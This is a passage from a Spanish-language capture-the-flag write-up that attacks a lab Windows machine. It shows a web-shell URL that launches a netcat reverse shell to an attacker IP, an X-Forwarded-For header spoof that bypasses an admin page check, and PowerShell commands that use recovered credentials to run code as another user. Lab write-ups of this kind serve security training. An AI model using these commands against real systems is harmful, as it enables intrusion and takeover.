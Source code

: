 Montando previamente el servidor web donde se encuentra el binario a descargar. Para ejecutarlo posteriormente con:

```text
http://10.10.10.167/srrequiem.php?cmd=c:\windows\temp\nc.exe%20-e%20powershell.exe%2010.10.14.16%201234
```

Logrando así acceso de una manera más interactiva.

![Reverse shell](images/exploit_8.png)

## Post Explotación

### Enumeración

Al buscar atar cabos sueltos respecto a lo indicado en el código fuente del sitio, se pudo visualizar que en el contenido del script de `admin.php` se hace un filtrado de cabeceras indicado por `HTTP_X_FORWARDED_FOR` buscando la IP indicada `192.168.4.28`. A lo que por consiguiente si se añadiera la cabecera `X-Forwarded-For: 192.168.4.28` a las peticiones realizadas se visualizaría el contenido de `admin.php`, logrando así un bypass de la validación.

![Validación de cabeceras](images/post_14.png)

### Escalación de privilegios

#### nt authority\iusr &rarr; hector

Habiendo identificado que existe el usuario `hector` en el sistema operativo por medio del listado de directorios de `c:\users`, se dispuso a buscar la manera de ejecutar comandos mediante las credenciales obtenidas.

![Listado de c:\users](images/post_1.png)

Habiendo encontrado [esta](https://lazyadmin.nl/powershell/start-process/) y [esta](https://davidhamann.de/2019/12/08/running-command-different-user-powershell/) referencias, se enviaron las siguientes instrucciones para lograr ejecutar comandos como el usuario `hector`.

Previamente identificando el nombre de la máquina y/o hostname con:

```powershell
# Cualquiera de los siguientes comandos
hostname
$env:COMPUTERNAME
[Environment]::MachineName
```

Según lo indica [este blog](https://adamtheautomator.com/powershell-get-computer-name/) para encontrar ese valor y usarlo posteriormente.

![Nombre de máquina](images/post_2.png)

```powershell
$userName = 'fidelity\hector'
$userPassword = 'l33th4x0rhector'
$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)
Invoke-Command -ComputerName Fidelity -Credential $credObject -ScriptBlock { whoami }
```
